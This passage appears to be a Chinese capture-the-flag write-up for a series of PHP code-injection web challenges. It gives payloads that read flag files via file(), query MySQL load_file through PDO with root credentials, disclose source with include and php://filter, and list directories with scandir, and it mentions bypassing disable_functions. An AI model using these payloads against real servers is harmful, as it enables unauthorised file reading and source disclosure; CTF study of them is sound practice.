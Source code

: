 ``````

# file()读取
c=print_r(file('flag.php'));

# PDO数据库load_file()读文件前提连接数据库
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
``````

### 方法二：参数逃逸+文件包含+伪协议

payload：`c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php`

## Web60

和前两题一样

## Web61

与前三题一样

## Web62

与前四题一样

## Web63

与前五题一样

## Web64

这几题估计想考disable_functions绕过

[绕过Disable Functions来搞事情 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/263540.html)

## Web65

## Web66

目录扫描`c=print_r(dirname('FILE')."\n");print_r(scandir("/"));`


[ERROR]: could not find driver